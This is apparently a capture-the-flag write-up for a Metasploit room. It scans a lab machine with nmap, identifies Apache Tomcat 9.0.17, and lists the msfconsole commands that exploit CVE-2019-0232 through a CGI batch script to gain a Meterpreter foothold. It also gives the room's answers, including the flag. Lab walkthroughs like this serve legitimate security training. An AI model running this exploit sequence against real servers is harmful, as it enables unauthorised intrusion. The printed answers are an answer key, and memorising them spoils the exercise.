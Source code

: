 ```yaml
---
description: Networking - Metasploit
---
```


# Ready, set, elf.

## Video

{% embed url="https://www.youtube.com/watch?v=6DOp2Fn1AsQ&feature=emb\_logo" %}

## Resources

`systeminfo`

[URL encoded](https://www.techopedia.com/definition/10346/url-encoding)

## Chalenge

What is the version number of the web server?

```text
nmap -Pn -sC -sV -O -v 10.10.198.75
```

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%2851%29.png)

{% hint style="success" %}
9.0.17
{% endhint %}

 What CVE can be used to create a Meterpreter entry onto the machine? \(Format: CVE-XXXX-XXXX\)

![](../.gitbook/assets/image%20%2812%29.png)

![](../.gitbook/assets/image%20%2852%29.png)

{% hint style="success" %}
CVE-2019-0232
{% endhint %}

Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

![](../.gitbook/assets/image%20%2832%29.png)

```text
msfconsole
search 2019-0232
use exploit/windows/http/tomcat_cgi_cmdlineargs
show targets
set TARGET 0
show options
set RHOST 10.10.198.75
set targeturi /cgi-bin/elfwhacker.bat
exploit
```

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

What are the contents of flag1.txt

![](../.gitbook/assets/image%20%2870%29.png)

![](../.gitbook/assets/image%20%2838%29.png)

{% hint style="success" %}
thm{whacking\_all\_the\_elves}
{% endhint %}

Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

